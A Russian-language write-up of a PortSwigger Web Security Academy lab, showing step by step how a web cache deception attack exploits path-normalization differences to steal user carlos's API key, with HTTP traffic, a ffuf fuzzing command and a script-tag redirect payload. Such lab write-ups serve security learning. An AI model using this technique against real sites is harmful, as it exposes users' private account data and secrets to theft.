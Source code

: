 [Источник](https://t.me/coffee_cube)
## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-normalization-discrepancies/web-cache-deception/lab-wcd-exploiting-cache-server-normalization#)

```
https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
```

Для прохождения лабы нужно найти `API` ключи пользователя `carlos` с помощью [[Web cache deception]]. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

## Notes

Зайдем в личный кабинет. Попробуем посмотреть, какие ресурсы кэширует веб сервер. Нашел запрос к статическому ресурсы, который кэшируется:

```HTTP
GET /resources/js/tracking.js HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Ответ:

```HTTP
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Попробую найти примерное правило кэширования. Для этого заменю `tracking.js` на рандомный символы. Если ответ будет кэширован, значит правило кэширует ресурсы по статическому пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Я получил `404`, но ответ был кэшировался. А значит файлы в `/resourses` - кэшируюется. Посмотрю нормализацию пути. Для этого добавлю `/aaa/..%2f` в начало `/aaaa/..%2fresources/js/tracking.js`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ так же кэшировался. Попробую добавить `/aaaa/..%2f` после пути `/resources`: `/resources/aaaa/..%2fjs/tracking.js`.

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ все равно кэшировался. Значит путь преобразовался к нормальному виду до кэширования.

Теперь посмотрю то, как нормализуется путь к динамическим ресурсам. Для этого буду работать с запросом к `/my-account`:

```HTTP
GET /my-account HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить рандомные символы к пути: `/my-account/aaaa`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Значит такой способ не подходит. Попробую добавить `/aaa/..%2f` к началу пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Все еще не то( Хмм... А если наоборот подставить в конец? `/my-account%2f%2e%2e%2aaaa`

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Тоска( Видимо путь на сервере не нормализуется. Попробую добавить `/resourses` к пути динамического ресурса. Посмотрю, какие разделители обрабатывает сервер. Для этого использую `ffuf`. В целом, это можно сделать и в `Burp`, но я хочу так)

```bash
 ffuf -u https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-accountFUZZaaa \
 -w wordlists/webcache_delimeters.txt
```

Вывод:

```bash
%                       [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 91ms]
?                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 165ms]
#                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 171ms]
%23                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 176ms]
/                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]
%2F   3                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
%3F                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
%00                     [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 72ms]
```

В качестве разделителя сервер принимает `%`, `?`, `#`, `/` и `%00`.  Я знаю, что путь к кэшируемы ресурсам нормализуется до кэширования, поэтому путь следующего формата должен кэшироваться `/my-account#%2f..%2fresourses`. Проверю это:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3866

...

```

Сработало. Теперь нужно скрафтить пейлоад. Для пейлоада буду использовать URL `https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned`. В качестве файла с нагрузкой использую `HTML`:

```XML
<script>document.location="https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned"</script>
```

![https://github.com/Cu63/writeups/tree/main/images/Pasted image 20250222195110.png]

Это не сработало. А почему? Попробую закодировать символы - это не помогло...

Прошел час. Была выпита одна чашка кофе. Я решил попробовать написать `html` полностью. И о чудо, оно сработало...

![[Pasted image 20250222212036.png]]

Долгожданный `API-key`:

![[Pasted image 20250222211820.png]]

Мда уж. Иногда стоит взять перерыв. А лаба решена:

![[Pasted image 20250222212135.png]]
